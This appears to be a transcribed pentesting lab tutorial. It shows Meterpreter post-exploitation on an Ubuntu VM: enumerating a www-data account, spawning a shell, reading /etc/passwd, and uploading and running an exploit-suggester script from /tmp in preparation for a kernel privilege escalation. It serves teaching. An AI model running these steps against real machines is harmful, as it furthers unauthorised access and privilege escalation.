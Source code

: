 注意：本视频中演示的技术是在 Ubuntu 12.04 VM 上执行的。

## Video
Perform some local enumeration:

```
meterpreter > sysinfo
```

What are the current privileges:

I'm currently logoned on or currently access to the target system with the privilege associated with user account `www-data`. This is a service account that you typically find on Linux system that have a Web server, or that hosting a Web server. This is a service account because it's used to manage the actual Web server will be Apache or Ngnix. And it is generally speaking, unprivileged. It gives the fact that if you exploit the Web application or Web server, then this account is a safeguard and as a result, it is not a part of the sudo group or any administrative group on the Linux system and cannot execute any commands that require root privileges.

```
meterpreter > getuid
Server username: www-data
```

Verify this by opening up a shell session, and obtain a bash session here. List out the groups that www-data is a part of. It' only a part of it's own group. List out the user. If we try to update the repositary, it's going to ask for a password, but because it is a service acount, it's going to tell us right over here. It means we need to elevate our privilege, we are targeting a root account, as that is the account with highest privileges on a Linux system.

```
meterpreter > shell
/bin/bash -i
www-data@ubuntu:/tmp$ groups www-data
www-data@ubuntu:/tmp$ cat /etc/passwd
www-data@ubuntu:/tmp$ sudo apt-get update
sudo: no tty present and no askpass program sprcified
Sorry, try agian.
www-data@ubuntu:/tmp$ ^C
```

The way we are going to obatin root access is to use of the kernel vulnerability, kernel exploits.

[linux-exploit-suggester](https://github.com/mzet-/linux-exploit-suggester)

Navigate to the `/tmp` directory within the Linux file system. It is a directory that stored the temporary file.

```
meterpreter > cd /tmp
meterpreter > ls
meterpreter > upload ~/Desktop/Linux-Enum/les.sh
meterpreter > shell
/bin/bash -i
www-data@ubuntu:/tmp$ ls
www-data@ubuntu:/tmp$ chmod +x les.sh
www-data@ubuntu:/tmp$ ls -alps
www-data@ubuntu:/tmp$ ./les.sh
www-data@ubuntu:/tmp$ ^C
```

